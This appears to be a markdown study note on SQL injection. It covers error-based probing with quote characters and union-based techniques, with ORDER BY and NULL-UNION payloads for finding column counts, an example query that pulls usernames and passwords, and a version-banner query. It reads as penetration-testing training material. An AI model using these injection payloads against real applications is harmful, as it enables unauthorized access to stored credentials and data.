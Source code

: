 - - - - - - - - - - - - - -

### Error-Based SQLi
+ Submit SQL-specific characters such as `'` or `"` and look for errors/anamolies
+ Different characters can give you different errors

- - - - - - - - - - - - - -

### Union-Based SQLi


   **Rules when using UNION operator**
   
[2 rules]: When COMBINING the results of 2 queries by using UNION
  1. `Number` and the `order` of the _columns_ must be the same in all queries
  2. `Data types` must be **compatible**

    **Background (Union)**
```
table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5

Intersting Query: select a, b from table1 UNION select usernames,passwords from USERS
```


   **========== Exploitation ==========**

1. Figure out the **number of columns** that query is making...
  + Use the **ORDER BY** clause
   - Incrment until and _error_ or you observe a _different behavior_
    * Maybe a `200 response` when correct
  + Example Back-end Query: `select title, cost from product where id =1 order by 1`
  
    ```Example_Attacker_Input
    order by 1--
    order by 2--
    order by 3-- <-- if this errors, you know there's 2 columns
    ```
  
  + Use the **NULL VALUES**
   - Increment number of _null vallues_ until you _no longer_ get an _error_
    * Maybe a `200 response` when correct
   - Example Back-end Query: `select title, cost from product where id =1 UNION SELECT NULL--`
   

[Sqlmap]: https://github.com/sqlmapproject/sqlmap
[Portswigger Cheat Sheet]: https://portswigger.net/web-security/sql-injection/cheat-sheet
[Version]: SELECT banner from v$version